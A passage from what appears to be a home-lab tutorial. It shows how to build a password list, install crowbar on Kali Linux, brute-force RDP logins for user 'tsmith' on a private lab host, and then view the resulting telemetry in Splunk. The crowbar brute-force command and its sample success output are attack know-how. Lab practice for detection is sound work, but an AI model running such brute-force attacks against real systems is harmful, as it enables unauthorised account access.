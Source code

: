 6.Now we have to edit passwards.txt file to add our target password.  
$nano passwords.txtx  
We can add our password to the file and save it.  
$cat password.txt  

7.Install crowbar tool for brute force attack  
For brute force attack we are going to use crowbar tool. Now install that tool.  
$sudo apt-get install –y crowbar  


**Brute force attack**  
1.Go to kali linux  
[~/desktop/ad-project]  
$crowbar –h  
$crowbar –b rdp –u tsmith –c passwords.txt –s 192.168.10.100/32  
$crowbar –b rdp –u tsmith –c passwords.txt –s 192.168.10.100/32  
Now, it will be check all passwords which is available in passwords.txt. If password matches it will show RDP-success 192.168.10.100:3389 –tsmith:password  

2.Goto splunk to see the telemetry  
Splunk->search & reporting  
Index=endpoint  



